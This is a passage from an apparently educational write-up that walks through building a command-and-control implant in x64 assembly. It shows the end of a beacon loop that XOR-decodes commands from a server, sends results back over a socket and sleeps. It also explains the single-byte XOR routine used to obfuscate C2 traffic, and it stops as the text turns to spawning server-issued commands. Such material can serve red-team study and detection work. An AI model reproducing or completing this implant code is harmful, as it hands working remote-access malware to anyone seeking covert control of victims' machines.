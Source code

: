```asm
            invoke xor_cipher, addr output_buffer, command_message.shellcode_msg.key, bytes_read

            ; Post the result back to the server
            invoke send, dw_socket, addr output_buffer, bytes_read, 0
        _wait:
            invoke Sleep, sleep_time
            .continue
        .endw

    _exit:
        invoke shutdown, dw_socket, sd_both
        invoke closesocket, dw_socket
        invoke WSACleanup
        ret
```

Achieving all of that in only 51 lines of assembly is pretty remarkable! We do not have to think much about the loop conditions, as the assembler handles that for us, along with local variable names, structure field access, function calls, and the `sizeof` macro.

#### XOR Cipher

The cipher component is extremely simple. In this scenario, we are using a XOR cipher to obfuscate the contents of the command received from the server, as well as the response from the client system. This setup uses a single byte XOR cipher as well, making things even simpler. We can implement the cipher with the following assembly:

```
    xor_cipher proc fastcall xor_buffer_addr:qword, xor_cipher_key:byte, xor_buffer_size:dword
        xor eax, eax
    _loop:
        cmp eax, r8d
        je _done
        xor byte ptr [rcx + rax], dl
        inc eax
        jmp _loop
    _done:
        ret
    xor_cipher endp
```

First, we clear `eax`, as we will be using it as a loop counter, comparing against `r8d` or `xor_buffer_size`. When `eax` grows to the value of `r8d`, we will exit the function. The `cmp` instruction will check these values against each other and set a flag in the `rflags` register. the `je` instruction will examine those flags, and if the `cmp` instruction set the Zero Flag, the `je` will perform the jump to the `_done` label.

Next, we will xor the byte at the current index of the source buffer against the key, increment the counter at `eax`, and jump to the `_loop` head. Once the loop is complete, we will `ret`.


#### Spawning Processes

The next section of code is a bit more complicated. This is the function that will spawn the command designated from the server and return the response. There are really two major components to this:
